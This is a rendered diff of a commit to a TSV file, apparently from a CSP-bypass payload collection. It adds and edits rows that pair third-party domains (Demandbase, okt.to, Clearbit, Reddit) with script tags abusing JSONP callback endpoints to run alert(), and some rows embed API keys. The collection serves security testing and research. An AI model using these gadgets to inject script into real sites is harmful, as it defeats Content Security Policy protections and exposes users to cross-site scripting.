

Before and after one commit to y1024/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added new domains

```diff
--- a/data.tsv
+++ b/data.tsv
@@ row 3 moved to row 29: api.clerk.io <script src="https://api.cl… @@
+row 32: api.demandbase.com | <script src="https://api.demandbase.com/api/v3/ip.json?key=LDHxBA8hUB2yNQphwwEfblkR6cHtp1tmrI2XGG2s&callback=alert"></script>
@@ row 107 moved to row 110: count-server.sharethis.com @@
+row 205: okt.to | <script src="https://okt.to/ping?callback=window.alert(window.origin)"></script>
+row 234: reveal.clearbit.com | <script src="https://reveal.clearbit.com/v1/companies/reveal?authorization=pk_0ff2488f59791c47711ae8173845dff6&callback=alert"></script>
-row 337: www.reddit.com | <script src="https://www.reddit.com/.json?limit=1&jsonp=window.alert"></script>
-B340: <script src="https://www.reddit.com/.json?jsonp=alert"></script>
+B340: <script src="https://www.reddit.com/.json?jsonp=window.alert"></script>
```
Also changed, not shown: 1 moved row elsewhere in this file.
